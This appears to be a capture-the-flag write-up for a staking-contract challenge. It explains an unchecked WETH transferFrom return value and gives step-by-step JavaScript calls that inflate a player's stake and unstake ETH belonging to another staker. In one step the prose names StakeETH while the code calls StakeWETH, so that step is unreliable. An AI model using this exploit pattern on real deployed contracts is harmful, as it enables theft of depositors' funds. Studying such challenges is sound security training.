 # Answer

Goal: 
1) Stake contract ETH balance should be >0
2) `totalStaked` > Stake contract ETH balance
3) Player must be a staker
4) Player staked balance must equal 0.

## 1. Become a staker

One of the requirements is to be a staker, it's pretty easy to become one - just stake some ETH (>0.001ETH):

```js
await contract.StakeETH('5000000000000000');
```

This will also increase the contract ETH balance. Points [1] and [3] - done.

## 2. Creating ETH disbalance

The main vulnerability of the contract is right here in `StakeWETH()` function:

```solidity
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount)); // <-- VULNERABILITY
        Stakers[msg.sender] = true;
        return transfered;
    }
```

Even if `transfered` is false, it is not checked only returned. So if the function is called directly the value will not matter. And our staked balance `UserStake[msg.sender]` will become larger than the actual staked amount. 

But before we call this function we need to pass the previous call which checks for allowance. Even if we don't have any balance of this token, we can approve as much as we want:

```javascript
await sendTransaction({
    from: player,
    to: "<WETH address>",
    data: '095ea7b3000000000000000000000000<Stake address>000000000000000000001aba4714957d300d0e549208b31adb0fffffffffffff' // <- `approve` selector with quantity larger than StakeWeth `amount` argument
})
```

After this we are free to bloat our stake as much as we want, so we double:

```javascript
await contract.StakeWETH('5000000000000000');
```

Point [2] - done. 

## 3. Stealing funds and setting player staked balance to 0

But now we are in trouble. The contract actually has 0.005 ETH from our `StakeETH()` call but the player `UserStake` is double that size (0.01 ETH), because of the malicious `StakeWETH()` call. To be able to reset our `UserStake` balance to zero, we need someone also to stake actual ETH. Atleast with the amount to cover our `UserStake` and some extra so that after the withdrawal, the [1] point of the requirements wouldn't be violated. To do this we set our wallet to a different address and call `StakeETH` again:

```javascript
await contract.StakeWETH('6000000000000000');
```

Now:
- `UserStake[player]` -> 0.01 ETH (0.005 ETH - from StakeETH and 0.005 ETH from StakeWETH)
- `UserStake[victim]` -> 0.006 ETH
- `totalStaked` -> 0.016 ETH
- Contract ETH balance -> 0.011 ETH

We can freely `Unstake()` our whole amount by stealing a piece of the other staker (victim) ETH.

```javascript
await contract.Unstake('10000000000000000')
```